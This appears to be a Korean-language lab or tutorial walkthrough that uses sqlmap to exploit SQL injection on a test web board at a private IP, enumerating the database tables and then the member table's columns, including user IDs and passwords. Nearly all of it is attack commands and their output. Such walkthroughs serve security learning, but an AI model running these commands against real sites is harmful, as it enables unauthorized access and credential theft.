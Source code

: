 <br>

지정된 데이터 베이스 내의 테이블 목록

```
sqlmap -u "http://172.16.0.110/board/board_view.php?num=28" -p "num" -D "WebTest" --tables

[04:02:10] [INFO] fetching tables for database: 'WebTest'
[04:02:10] [WARNING] reflective value(s) found and filtering out
[04:02:10] [INFO] retrieved: 'board'
[04:02:10] [INFO] retrieved: 'member'
Database: WebTest                                                                                                                                   
[2 tables]
+--------+
| member |
| board  |
+--------+
```

 <br>

member 테이블의 컬럼 

```
sqlmap -u "http://172.16.0.110/board/board_view.php?num=28" -p "num" -D "WebTest" -T "member" --column

[04:04:39] [INFO] fetching columns for table 'member' in database 'WebTest'
[04:04:39] [WARNING] reflective value(s) found and filtering out
[04:04:39] [INFO] retrieved: 'no','int(11)'
[04:04:39] [INFO] retrieved: 'u_id','varchar(20)'
[04:04:39] [INFO] retrieved: 'u_pass','varchar(50)'
[04:04:39] [INFO] retrieved: 'u_name','varchar(20)'
[04:04:39] [INFO] retrieved: 'nickname','char(20)'
[04:04:39] [INFO] retrieved: 'age','int(11)'
[04:04:39] [INFO] retrieved: 'email','char(50)'
[04:04:39] [INFO] retrieved: 'reg_date','datetime'
Database: WebTest                                                                                                                                   
Table: member
[8 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| no       | int(11)     |
| age      | int(11)     |
| email    | char(50)    |
| nickname | char(20)    |
| reg_date | datetime    |
| u_id     | varchar(20) |
| u_name   | varchar(20) |
| u_pass   | varchar(50) |
+----------+-------------+
```
